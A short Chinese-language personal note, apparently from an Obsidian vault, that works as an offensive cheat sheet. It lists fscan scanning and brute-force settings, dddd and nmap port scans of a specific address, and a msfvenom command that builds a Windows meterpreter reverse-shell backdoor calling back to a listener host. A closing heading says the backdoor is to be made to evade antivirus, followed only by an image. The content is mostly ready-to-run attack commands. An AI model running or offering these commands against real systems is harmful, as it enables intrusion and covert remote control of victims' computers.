 ```yaml
---
aliases:
cssclasses:
tags:
icon: pen-to-square
date:
---
```

fscan降速版
```fscan
./fscan -hf "big ip-lnut.txt" \
        -t 100 \               # 大幅降低线程数（默认600）
        -num 5 \               # 降低POC扫描速率（默认20）
        -wt 10 \               # 增加Web超时时间（默认5）
        -time 5 \              # 增加常规超时时间（默认3）
        -br 1 \                # 暴力破解线程设为1（默认1）
        -o "fscan_result.txt"  # 输出结果文件
```
dddd可视化输出
```dddd
./dddd_linux64 -target "big ip.txt" -o "big ip.html"
```
nmap端口粗描
```nmap
sudo nmap -sT --min-rate 10000 -p- 10.129.40.36 -oA nmapscan/ports
```
nmap端口详扫
```nmap
sudo nmap -sT -sV -sC -O -p80,135,445,1985 10.129.40.36 -oA nmapscan/detail
```
msf生成后门(windows)
```msfconsole
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.123.23 LPORT=7788 -f raw -o shell.raw
```
对上面的后门进行免杀处理
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20251018201139.png)
